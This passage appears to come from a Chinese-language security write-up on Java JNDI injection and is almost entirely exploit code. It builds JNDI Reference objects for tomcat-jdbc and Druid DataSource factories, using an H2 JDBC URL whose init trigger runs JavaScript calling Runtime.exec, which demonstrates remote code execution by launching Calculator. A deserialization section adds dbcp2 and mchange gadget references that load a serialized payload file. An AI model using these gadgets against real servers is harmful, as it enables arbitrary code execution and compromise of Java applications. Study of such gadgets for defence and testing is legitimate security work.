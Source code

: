 四种不同版本的 dbcp 要用不同的工厂类  
### tomcat-jdbc  
如果遇到`dhcp`使用不了，可以使用`tomcat-jdbc.jar`的`org.apache.tomcat.jdbc.pool.DataSourceFactory`  
```java  
private static Reference tomcat_JDBC_RCE(){  
    return dbcpByFactory(&#34;org.apache.tomcat.jdbc.pool.DataSourceFactory&#34;);  
}  
private static Reference dbcpByFactory(String factory){  
    Reference ref = new Reference(&#34;javax.sql.DataSource&#34;,factory,null);  
    String JDBC_URL = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n&#34; &#43;  
            &#34;INFORMATION_SCHEMA.TABLES AS $$//javascript\n&#34; &#43;  
            &#34;java.lang.Runtime.getRuntime().exec(&#39;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#39;)\n&#34; &#43;  
            &#34;$$\n&#34;;  
    ref.add(new StringRefAddr(&#34;driverClassName&#34;,&#34;org.h2.Driver&#34;));  
    ref.add(new StringRefAddr(&#34;url&#34;,JDBC_URL));  
    ref.add(new StringRefAddr(&#34;username&#34;,&#34;root&#34;));  
    ref.add(new StringRefAddr(&#34;password&#34;,&#34;password&#34;));  
    ref.add(new StringRefAddr(&#34;initialSize&#34;,&#34;1&#34;));  
    return ref;  
}  
```  
### druid  
```java  
private static Reference druid(){  
    Reference ref = new Reference(&#34;javax.sql.DataSource&#34;,&#34;com.alibaba.druid.pool.DruidDataSourceFactory&#34;,null);  
    String JDBC_URL = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n&#34; &#43;  
            &#34;INFORMATION_SCHEMA.TABLES AS $$//javascript\n&#34; &#43;  
            &#34;java.lang.Runtime.getRuntime().exec(&#39;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#39;)\n&#34; &#43;  
            &#34;$$\n&#34;;  
    String JDBC_USER = &#34;root&#34;;  
    String JDBC_PASSWORD = &#34;password&#34;;  
  
    ref.add(new StringRefAddr(&#34;driverClassName&#34;,&#34;org.h2.Driver&#34;));  
    ref.add(new StringRefAddr(&#34;url&#34;,JDBC_URL));  
    ref.add(new StringRefAddr(&#34;username&#34;,JDBC_USER));  
    ref.add(new StringRefAddr(&#34;password&#34;,JDBC_PASSWORD));  
    ref.add(new StringRefAddr(&#34;initialSize&#34;,&#34;1&#34;));  
    ref.add(new StringRefAddr(&#34;init&#34;,&#34;true&#34;));  
    return ref;  
}  
```  
## 0x04 Deserialize  
**dbcp**  
```java  
ResourceRef ref = new ResourceRef(&#34;org.apache.commons.dbcp2.datasources.SharedPoolDataSource&#34;, null, &#34;&#34;, &#34;&#34;,  
                true, &#34;org.apache.commons.dbcp2.datasources.SharedPoolDataSourceFactory&#34;, null);  
ref.add(new BinaryRefAddr(&#34;jndiEnvironment&#34;, Files.readAllBytes(Paths.get(&#34;calc.bin&#34;))));  
```  
**mchange-common**  
```java  
ResourceRef ref = new ResourceRef(&#34;java.lang.String&#34;, null, &#34;&#34;, &#34;&#34;, true, &#34;com.mchange.v2.naming.JavaBeanObjectFactory&#34;, null);  
ref.add(new BinaryRefAddr(&#34;com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY&#34;, Files.readAllBytes(Paths.get(&#34;calc.bin&#34;))));  
```  